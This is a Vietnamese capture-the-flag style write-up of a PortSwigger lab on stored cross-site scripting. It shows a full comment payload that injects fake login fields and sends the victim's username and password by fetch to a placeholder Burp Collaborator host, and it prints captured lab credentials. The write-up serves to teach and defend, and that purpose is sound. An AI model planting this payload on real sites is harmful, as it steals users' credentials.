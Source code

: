 # Write-up: Exploiting cross-site scripting to capture passwords

### Tổng quan
Khai thác lỗ hổng Stored Cross-Site Scripting (XSS) trong chức năng comment của blog để chèn một form giả mạo, thu thập username và password của nạn nhân thông qua sự kiện `onchange` và gửi dữ liệu đến Burp Collaborator. Payload sử dụng thẻ `<input>` để tạo form nhập liệu, gửi thông tin nhạy cảm qua yêu cầu POST, cho phép lấy thông tin đăng nhập (`administrator:aljwv1v2kje669cm5hxp`) và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng Stored XSS trong chức năng comment để thu thập username và password của nạn nhân, gửi dữ liệu đến Burp Collaborator, sử dụng thông tin đăng nhập để truy cập tài khoản và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập một bài viết bất kỳ trên blog và gửi comment để kiểm tra khả năng XSS:
    - Comment: <script>alert(1)</script>
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
- **Phản hồi**: Quay lại bài blog, thấy hộp thoại hiển thị 1, xác nhận lỗ hổng Stored XSS trong trường comment vì mã `<script>` được thực thi trực tiếp:
    ![script](./images/1_xss.png)

2. **Khai thác (Exploitation)**
- Gửi comment mới với payload XSS:
    - Comment: 
        ```
        <input name=username id=username>
        <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body:username.value+':'+this.value
        });">
        ```
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
-  Cơ chế chi tiết của payload:
   - `<input name=username id=username>`: Tạo trường nhập username.
   - `<input type=password name=password onchange="...">`: Tạo trường nhập password, với sự kiện `onchange` kích hoạt khi người dùng nhập password và rời khỏi trường.
   - `if(this.value.length)`: Kiểm tra password có giá trị (không rỗng).
   - `fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method: 'POST', mode: 'no-cors', body:username.value+':'+this.value})`: Gửi yêu cầu POST đến Burp Collaborator, với body chứa `username`:`password` 

- Kiểm tra Burp Collaborator, thấy thông tin `username` và `password`:
    ![extra](./images/2_extril.png)

- Sử dụng thông tin `administrator`:`aljwv1v2kje669cm5hxp` để đăng nhập vào /my-account và hoàn thành lab
    ![solved](./images/2_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Stored XSS để tạo form giả mạo, thu thập thông tin đăng nhập của nạn nhân và gửi đến máy chủ bên ngoài qua Burp Collaborator.
- Nhận thức tầm quan trọng của việc làm sạch (sanitizing) input người dùng trong các trường như comment và triển khai các biện pháp bảo vệ như CSP hoặc kiểm tra nội dung để ngăn chặn các cuộc tấn công XSS.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Stored XSS để thu thập thông tin đăng nhập, nhấn mạnh tầm quan trọng của việc làm sạch input người dùng và sử dụng các biện pháp bảo vệ như CSP. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*